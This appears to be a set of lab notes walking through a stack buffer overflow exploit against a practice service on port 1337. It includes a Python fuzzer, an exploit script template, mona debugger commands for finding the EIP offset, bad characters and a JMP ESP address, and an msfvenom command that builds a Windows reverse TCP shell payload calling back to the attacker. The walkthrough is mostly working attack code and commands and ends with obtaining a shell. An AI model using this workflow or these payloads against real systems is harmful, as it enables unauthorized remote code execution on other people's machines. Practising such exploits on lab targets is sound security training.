 ## Config Mona Work Folder

`!mona config -set workingfolder c:\mona\%p`

The `%p` means the process name.



## Fuzz

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "MACHINE_IP"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

Check how many bytes required to crash the program.



## Replicate Crash & Get EIP offset

```python
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Using Metasploit's tool to create a payload of a length more than the previous result.

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l len`

Place the payload into the file above.



In debugger, run `!mona findmsp -distance len`

It will output the EIP offset. Place it into the file.

We can validate it by replacing the payload to `BBBB` , executing again, and the resulting EIP should be `42424242` (B = 42)



## Find Bad Characters

`!mona bytearray -b "\x00"` 

Generating file to compare.

```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

Generating payload to send.



Crash again and run `!mona compare -f C:\mona\%p\bytearray.bin -a <address>`

address means the resulting ESP register info.

**Some Bad Char will corrupter other char as well**



## Find Jump Point

`!mona jmp -r esp -cpb "Bad Char starting \x00"`

It will displayed all jmp instructions's addresses that do not contain any bad char.

Choose one and reverse it into the retn.



## Generate Payload

`msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "Bad Char" -f c`



## Prepend

We need to reverse some space in the memory for the payload to extract itself.

Like `padding = "\x90" * 16` `\x90` is NOP.



## Exploit

Execute and get shell.

